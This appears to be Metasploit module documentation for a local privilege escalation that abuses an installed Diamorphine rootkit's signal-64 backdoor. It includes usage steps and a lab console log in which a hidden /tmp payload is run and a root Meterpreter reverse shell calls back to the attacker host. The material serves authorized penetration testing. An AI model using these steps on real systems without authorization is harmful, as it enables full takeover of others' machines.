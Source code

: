 ## Vulnerable Application

  [Diamorphine](https://github.com/m0nad/Diamorphine) is a Linux Kernel Module (LKM) rootkit.

  This module uses Diamorphine rootkit's privesc feature using signal
  64 to elevate the privileges of arbitrary processes to UID 0 (root).

  This module has been tested successfully with Diamorphine from `master`
  branch (2019-10-04) on Linux Mint 19 kernel 4.15.0-20-generic (x64).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/diamorphine_rootkit_signal_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SIGNAL**

  Diamorphine elevate signal. (default: `64`)


## Scenarios

### Linux Mint 19 (x64)

  ```
  msf > use exploit/linux/local/diamorphine_rootkit_signal_priv_esc
  msf exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > check

  [*] Executing id ...
  uid=0(root) gid=0(root) groups=0(root),1001(test)
  [+] The target is vulnerable. Diamorphine is installed and configured to handle signal '64'.
  msf exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Executing id ...
  uid=0(root) gid=0(root) groups=0(root),1001(test)
  [*] Writing '/tmp/.hwL5UoDL6mfZ' (207 bytes) ...
  [*] Executing /tmp/.hwL5UoDL6mfZ & echo  ...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.228
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.228:47694) at 2020-02-16 09:28:59 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.228
  OS           : LinuxMint 19 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

